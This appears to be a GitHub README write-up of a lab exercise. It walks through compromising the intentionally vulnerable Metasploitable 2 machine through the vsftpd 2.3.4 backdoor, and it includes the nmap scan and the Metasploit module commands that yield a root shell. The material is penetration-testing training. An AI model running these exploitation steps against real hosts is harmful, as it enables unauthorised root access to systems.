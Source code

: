 # Metasploitable-2-CTF--Writeup

## 🎯 Target Info

- **Machine:** Metasploitable 2
- **IP:** `192.168.56.104`
- **Service:** vsftpd 2.3.4 (vulnerable)

## 🧩 Recon

```bash
nmap -sV 192.168.56.104
```

## Findings:

Port 21: vsftpd 2.3.4
Known backdoor exists.

## 🚀 Exploitation Steps:
1️⃣ Fire up Metasploit

```bash
msfconsole
```

2️⃣ Search for the module

```bash
search vsftpd
```

3️⃣ Use the exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.104
run
```



## 📁 Proof

<img width="1920" height="936" alt="VirtualBox_Parrot OS Security Edition_16_07_2025_23_28_09" src="https://github.com/user-attachments/assets/8de2072b-e333-40b5-a22d-05f18ff9be45" />
<br>
Running the nmap scan to identify open services on Metasploitable2. Found vsftpd 2.3.4 running on port 21 — our entry point!
<br><br>


<img width="1920" height="936" alt="VirtualBox_Parrot OS Security Edition_16_07_2025_23_27_14" src="https://github.com/user-attachments/assets/91819b2f-1a41-4fbf-a62d-f80ca0fab538" />
<br>
Launching the vsftpd 2.3.4 backdoor exploit using msfconsole. Successful — gained root shell on the target!
<br><br>
